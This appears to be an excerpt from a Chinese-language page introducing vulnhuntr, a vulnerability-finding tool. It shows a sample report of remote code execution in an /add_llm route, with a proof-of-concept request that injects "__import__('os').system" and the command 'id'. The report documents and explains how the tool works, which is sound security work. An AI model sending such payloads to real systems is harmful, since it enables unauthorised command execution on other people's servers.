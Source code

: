 vulnerability is particularly severe because it occurs in a route decorated with @login_required, suggesting it's accessible to authenticated users,

which might give a false sense of security.

----------------------------------------

 

poc:

  POST /add_llm HTTP/1.1

  Host: target.com

  Content-Type: application/json

  Authorization: Bearer <valid_token>

  

  {

      "llm_factory": "__import__('os').system",

      "llm_name": "id",

      "model_type": "EMBEDDING",

      "api_key": "dummy_key"

  }

  

  This payload attempts to exploit the vulnerability by setting 'llm_factory' to a string that, when evaluated, imports the os module and calls system.

The 'llm_name' is set to 'id', which would be executed as a system command if the exploit is successful.

----------------------------------------

 

confidence_score:

  8

----------------------------------------

 

vulnerability_types:

  - RCE

----------------------------------------
```  
##   
  
**许可证协议**  
  
  
##   
  
本项目的开发与发布遵循  
AGPL-3.0  
开源许可协议。  
##   
  
**项目地址**  
  
  
##   
  
**vulnhuntr**：  
```